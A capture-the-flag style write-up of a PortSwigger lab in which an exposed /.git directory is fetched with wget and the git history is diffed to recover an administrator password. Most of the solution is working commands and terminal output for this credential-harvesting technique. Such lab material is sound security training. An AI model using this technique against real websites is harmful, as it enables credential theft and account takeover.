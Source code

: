 # [Lab: Information disclosure in version control history](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history)

## Lab

This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the `administrator` user then log in and delete Carlos's account.

## Analysis

```http
GET /.git HTTP/1.1

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 1201

<html>
    <head>
        <title>Index of /.git</title>
        <style>
...
```

## Solution

download `.git` folder:

```bash
wget -r https://0a75009003f92242c0678207004f006c.web-security-academy.net/.git
```

find password:

```bash
┌──(kali㉿kali)-[~/Documents/0a75009003f92242c0678207004f006c.web-security-academy.net]
└─$ git log   
commit 9f45e7113786448c0b7d686143671602b58943e6 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 678c577d235c3778d13c008ebe53f230f20be60e
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel

┌──(kali㉿kali)-[~/Documents/0a75009003f92242c0678207004f006c.web-security-academy.net]
└─$ git diff 9f45..678c
diff --git a/admin.conf b/admin.conf
index 21d23f1..f0e7213 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=env('ADMIN_PASSWORD')
+ADMIN_PASSWORD=72ot70gpa5fmwifsobfp
```
